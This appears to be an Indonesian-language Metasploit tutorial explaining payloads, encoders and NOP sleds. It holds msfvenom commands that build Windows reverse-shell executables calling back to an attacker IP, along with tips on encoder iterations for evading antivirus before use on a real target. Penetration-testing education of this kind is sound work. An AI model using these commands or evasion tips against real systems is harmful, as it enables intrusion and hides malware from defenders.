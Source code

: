 # Memahami Payload, Encoder, dan NOPs

## A. Apa Itu Payload?

Payload adalah kode yang dijalankan di sistem target setelah berhasil dieksploitasi. Dalam konteks Metasploit, payload bisa bersifat:
- **Reverse Shell** (membuka koneksi dari target ke attacker)
- **Bind Shell** (membuka port di target untuk diakses attacker)
- **Meterpreter** (payload canggih Metasploit dengan banyak fitur)

Contoh Payload Populer:

| Payload |	Keterangan |
|:--:|:--:|
| `windows/meterpreter/reverse_tcp` |	Memberi shell Meterpreter via koneksi TCP balik |
| `linux/x86/meterpreter_reverse_http` | Meterpreter pada Linux via HTTP |
| `cmd/unix/reverse_bash`	| Shell balik |

## B. Apa itu Encoder?

Encoder adalah teknik untuk menyandikan payload agar tidak terdeteksi oleh antivirus atau menghindari karakter terlarang (bad characters).

**Mengapa Perlu Encoder?**

- Menghindari deteksi signature oleh antivirus.
- Menyesuaikan dengan karakterisasi buffer (misal: tidak boleh ada `\x00`).

Contoh Encoder:

| Encoder	| Platform | Deskripsi |
|:--:|:--:|:--:|
| `x86/shikata_ga_nai`	| `x86` | Encoder polymorphic yang sulit dideteksi |
| `cmd/echo` | `Windows` | Menyandikan payload sebagai perintah echo |
| `generic/none` | `All` | Tidak menggunakan encoding |

Contoh Penggunaan Encoder:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.8`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe`

## C. Apa itu NOPs (No Operation)?

NOP adalah instruksi kosong (tidak melakukan apa-apa) yang digunakan untuk:
- Menstabilkan eksekusi shellcode
- Mengisi buffer sebelum shellcode
- Menghindari crash karena posisi shellcode bergeser

**NOP sled**

NOP sled adalah serangkaian instruksi NOP yang ditempatkan sebelum shellcode agar eksekusi tetap mencapai payload meskipun offset tidak akurat.

```
\x90\x90\x90\x90...[NOP]...\xCC\xE8... [payload]
```

Di Metasploit, NOP generator dapat ditambahkan saat membuat payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -n 16 -f exe > payload.exe
```

Keterangan:
- `-n 16`: Menambahkan 16 byte NOP sled.

## D. Relasi Payload, Encoder, dan NOPs

Ketiganya bekerja sama untuk membentuk payload yang:
- Efektif
- Tidak terdeteksi
- Stabil saat dieksekusi di memori target

## Tips Tambahan

- Gunakan encoder `x86/shikata_ga_nai` dengan iterasi `3–5x` untuk menghindari AV.
- Tambahkan NOP jika payload crash saat buffer overflow.
- Uji payload dengan antivirus scanner sebelum digunakan ke target real.
